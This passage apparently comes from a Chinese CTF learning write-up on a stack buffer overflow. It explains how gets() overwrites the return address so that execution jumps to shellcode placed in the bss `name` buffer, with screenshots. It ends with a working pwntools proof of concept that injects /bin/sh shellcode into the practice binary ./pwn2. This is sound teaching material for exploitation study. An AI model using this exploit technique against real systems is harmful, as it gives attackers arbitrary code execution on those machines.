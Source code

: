 执行`gets`函数后，`rip`已被覆写为`name`地址：

<img src="https://raw.githubusercontent.com/Pryriat/blog_backup/master/Image/stack_learn/image-20200813234711503.png" alt="image-20200813234711503" style="zoom:40%;" />

函数返回后跳转至`shellcode`中：

![image-20200813234951524](https://raw.githubusercontent.com/Pryriat/blog_backup/master/Image/stack_learn/image-20200813234951524.png)

## POC

```python
from pwn import *
context.arch = 'amd64'#指定架构

p = process('./pwn2')
shellcode = asm(shellcraft.sh())#构造shellcode
p.sendafter('Name:',shellcode)
payload = 'A'*0x20
payload += p64(0xdeadbeef)#rbp
payload += p64(0x601040)#rip 程序执行流跳转到bss段的name，可控
p.sendlineafter('Input:',payload)
p.interactive()
```
